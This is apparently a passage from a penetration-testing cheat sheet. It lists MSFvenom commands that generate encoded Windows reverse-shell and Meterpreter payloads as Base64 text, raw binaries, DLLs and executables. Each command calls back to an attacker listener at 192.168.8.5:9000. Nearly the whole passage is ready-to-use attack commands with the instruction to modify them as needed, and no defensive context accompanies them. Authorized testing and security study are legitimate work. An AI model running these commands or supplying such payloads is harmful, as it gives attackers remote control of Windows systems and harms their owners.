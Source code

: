 * [swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)
* [lolbas-project.github.io](https://lolbas-project.github.io)
* [gtfobins.github.io](https://gtfobins.github.io)

### Generate a Reverse Shell Payload for Windows OS

To generate a `Base64 encoded payload`, use one of the following MSFvenom commands, modify them to your need:

```fundamental
msfvenom --platform windows -a x86 -e x86/call4_dword_xor -p windows/shell_reverse_tcp LHOST=192.168.8.5 LPORT=9000 EXITFUNC=thread -f raw -b \x00\x0a\x0d\xff | base64 -w 0 > payload.txt

msfvenom --platform windows -a x64 -e x64/xor -p windows/x64/shell_reverse_tcp LHOST=192.168.8.5 LPORT=9000 EXITFUNC=thread -f raw -b \x00\x0a\x0d\xff | base64 -w 0 > payload.txt

msfvenom --platform windows -a x86 -e x86/call4_dword_xor -p windows/meterpreter_reverse_tcp LHOST=192.168.8.5 LPORT=9000 EXITFUNC=thread -f raw | base64 -w 0 > payload.txt

msfvenom --platform windows -a x64 -e x64/xor -p windows/x64/meterpreter_reverse_tcp LHOST=192.168.8.5 LPORT=9000 EXITFUNC=thread -f raw | base64 -w 0 > payload.txt
```

To generate a `binary file`, use one of the following MSFvenom commands, modify them to your need:

```fundamental
msfvenom --platform windows -a x86 -e x86/call4_dword_xor -p windows/shell_reverse_tcp LHOST=192.168.8.5 LPORT=9000 EXITFUNC=thread -f raw -b \x00\x0a\x0d\xff -o payload.bin

msfvenom --platform windows -a x64 -e x64/xor -p windows/x64/shell_reverse_tcp LHOST=192.168.8.5 LPORT=9000 EXITFUNC=thread -f raw -b \x00\x0a\x0d\xff -o payload.bin

msfvenom --platform windows -a x86 -e x86/call4_dword_xor -p windows/meterpreter_reverse_tcp LHOST=192.168.8.5 LPORT=9000 EXITFUNC=thread -f raw -o payload.bin

msfvenom --platform windows -a x64 -e x64/xor -p windows/x64/meterpreter_reverse_tcp LHOST=192.168.8.5 LPORT=9000 EXITFUNC=thread -f raw -o payload.bin
```

To generate a `DLL file`, use one of the following MSFvenom commands, modify them to your need:

```fundamental
msfvenom --platform windows -a x86 -e x86/call4_dword_xor -p windows/shell_reverse_tcp LHOST=192.168.8.5 LPORT=9000 EXITFUNC=thread -f dll -b \x00\x0a\x0d\xff -o payload.dll

msfvenom --platform windows -a x64 -e x64/xor -p windows/x64/shell_reverse_tcp LHOST=192.168.8.5 LPORT=9000 EXITFUNC=thread -f dll -b \x00\x0a\x0d\xff -o payload.dll
```

To generate a `standalone executable`, file use one of the following MSFvenom commands, modify them to your need:

```fundamental
msfvenom --platform windows -a x86 -e x86/call4_dword_xor -p windows/shell_reverse_tcp LHOST=192.168.8.5 LPORT=9000 EXITFUNC=thread -f exe -b \x00\x0a\x0d\xff -o payload.exe

msfvenom --platform windows -a x64 -e x64/xor -p windows/x64/shell_reverse_tcp LHOST=192.168.8.5 LPORT=9000 EXITFUNC=thread -f exe -b \x00\x0a\x0d\xff -o payload.exe

msfvenom --platform windows -a x86 -e x86/call4_dword_xor -p windows/meterpreter_reverse_tcp LHOST=192.168.8.5 LPORT=9000 EXITFUNC=thread -f exe -o payload.exe

msfvenom --platform windows -a x64 -e x64/xor -p windows/x64/meterpreter_reverse_tcp LHOST=192.168.8.5 LPORT=9000 EXITFUNC=thread -f exe -o payload.exe
```

